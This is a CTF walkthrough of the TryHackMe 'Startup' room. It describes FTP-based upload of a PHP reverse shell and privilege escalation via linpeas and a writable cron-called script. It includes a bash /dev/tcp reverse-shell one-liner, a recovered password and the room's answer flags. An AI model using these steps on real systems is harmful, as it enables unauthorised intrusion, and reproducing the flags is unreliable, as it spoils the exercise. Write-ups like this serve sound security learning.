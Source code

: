 # Startup
https://tryhackme.com/room/startup

## Enumeration
nmap scan output:
```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
    Anonymous FTP login allowed (writable)
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
```

Gobuster directories:
/files:
    ftp/    (Executable files here)
    important.jpg
    notice.txt

Notes:
- user "maya" (exposed by notice.txt)
- ftp anonymous login allowed
- ftp directory is reachable via web server - potential reverse shell

Anonymous Login worked correctly & reverse php shell uploaded & executed in ftp/ dir

Now we have access to the www-data user I used linpeas.sh to scan the target for potential escalation.

##  What is the secret spicy soup recipe? 
Looking at the "/" directory there is a file called recipe.txt that contains the message 
```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

Answer: love

## What are the contents of user.txt?
In the linpeas output under _Unexpected in root_ there are a few directories, however the one that attracts focus is /incidents this contains a pcapng file called "suspicious.pcapng" so I copied this to the ftp directory on the web server and downloaded it.

Within this packet capture we can see someone trying to access a webshell
`GET /files/ftp/shell.php`

If we follow this TCP stream and contionue though we can see the usage of this web shell.
The other hacker has his password and is trying to use `sudo -l` then sending the password across for the lennie user.

Username: lennie
Password: c4ntg3t3n0ughsp1c3

I used this to log in via ssh and then cat the user.txt file for the first flag

Answer: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

## What are the contents of root.txt?
Now I'm on the lennie user I'm going to re run the linpeas script.

Under "Interesting writable files owned by me or writable by everyone"
there's /etc/print.sh which is called in /home/lennie/scripts/planner.sh

I'm assuming that this file has been setup in a crontab somewhere so I add the following to the file to create a reverse shell:
`bash -i >& /dev/tcp/<ip>/4444 0>&1`

I then cat /root/root.txt

Answer: THM{f963aaa6a430f210222158ae15c3d76d}
